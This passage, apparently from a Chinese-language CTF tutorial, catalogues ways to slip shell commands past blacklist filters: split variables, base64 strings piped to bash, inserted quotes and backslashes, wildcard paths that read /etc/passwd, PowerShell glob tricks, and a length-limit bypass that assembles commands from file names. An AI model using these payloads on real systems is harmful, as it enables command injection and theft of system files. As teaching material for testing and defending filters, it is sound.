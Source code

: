 **<a class="reference-link" name="%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87"></a>黑名单绕过**

绕过黑名单主要有以下方法：
- 拼接
```
[root@localhost home]# a=ca;b=t;c=1; $a$b $c.txt
this is your flag
```
- base64编码
```
[root@localhost home]# `echo "Y2F0IGZsYWc="|base64 -d`
this is your flag
或者
[root@localhost home]# echo "Y2F0IGZsYWc="|base64 -d|bash
this is your flag
```
- 单引号，双引号
```
[root@localhost home]# ca""t 1''.txt
this is your flag
```
- 反斜线
```
[root@localhost home]# c\at 1.t\xt
this is your flag
```
- 可变扩展绕过
```
/???/c?t /???/p?ss??

test=/ehhh/hmtc/pahhh/hmsswd
cat $`{`test//hhh\/hm/`}`
cat $`{`test//hh??hm/`}`
```
- 用通配符绕过
```
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```
- shell特殊变量（$1，$2等和$@）
```
[root@localhost home]# ca$@t 1$1.txt
this is your flag
```

**<a class="reference-link" name="%E9%95%BF%E5%BA%A6%E9%99%90%E5%88%B6%E7%BB%95%E8%BF%87"></a>长度限制绕过**

通过构造文件来绕过

linux下可以用

`1 &gt; a`创建文件名为a的空文件

`ls -t&gt;test`则会将目录按时间排序后写进test文件中

`sh`命令可以从一个文件中读取命令来执行
